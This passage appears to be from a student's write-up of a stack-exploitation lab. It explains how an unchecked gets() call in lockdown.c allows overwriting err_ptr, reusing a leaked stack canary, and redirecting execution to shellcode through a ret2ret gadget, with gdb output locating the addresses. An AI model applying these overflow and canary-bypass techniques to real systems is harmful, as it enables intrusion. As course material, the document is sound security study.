 The `rip` of function `calibrate` (located at *0xffffd81c*) is overwrited with the address of the shell code (*0xffffda60*).

## Question 7

### Main Idea

The code is vulnerable because the `gets` function call does not check input length and therefore allows us to write past the end of local variable `buf` and overwrite the variable `err_ptr`. We use the `ret2ret` method to trick the program to execute the shellcode pointed by the overwritten `err_ptr` variable. Note that even though stack canary is enabled in this program, it actually outputs it automatically, allowing us to overwrite it with itself to defeat its purposes.

### Magic Numbers

We first need to determine the address of the local variable `err_ptr` (*0xffeb2dd8*), of the stack canary (*0xffeb2d9c*), of the `rip` of function `secure_gets` (*0xffeb2dac*), and the address of a `ret` instruction (*printf+41*).

```c
(gdb) frame 1
#1  0x565c2689 in main (argc=1, argv=0xffeb2e74) at lockdown.c:119
(gdb) p &err_ptr
$2 = (int **) 0xffeb2dd8
```

```c
(gdb) x/1x buf+256
0xffeb2d9c:     0x3d180ddd
```

```c
(gdb) i f
Stack level 0, frame at 0xffeb2db0:
 eip = 0x565c25ea in secure_gets (lockdown.c:106); saved eip = 0x565c2689
 called by frame at 0xffeb2e00
 source language c.
 Arglist at 0xffeb2da8, args: err_ptr=0xffeb2dd4
 Locals at 0xffeb2da8, Previous frame's sp is 0xffeb2db0
 Saved registers:
  ebx at 0xffeb2da4, ebp at 0xffeb2da8, eip at 0xffeb2dac
```

```c
0xf7eb70ea <printf>     push   %ebx
0xf7eb70eb <printf+1>   call   0xf7e7f774
0xf7eb70f0 <printf+6>   add    $0x4ae98,%ebx
0xf7eb70f6 <printf+12>  sub    $0x8,%esp
0xf7eb70f9 <printf+15>  lea    0x14(%esp),%eax
0xf7eb70fd <printf+19>  push   %edx
0xf7eb70fe <printf+20>  push   %eax
0xf7eb70ff <printf+21>  push   0x18(%esp)
0xf7eb7103 <printf+25>  lea    0x238(%ebx),%eax
0xf7eb7109 <printf+31>  push   %eax
0xf7eb710a <printf+32>  call   0xf7eb936a <vfprintf>
0xf7eb710f <printf+37>  add    $0x18,%esp
0xf7eb7112 <printf+40>  pop    %ebx
0xf7eb7113 <printf+41>  ret
```
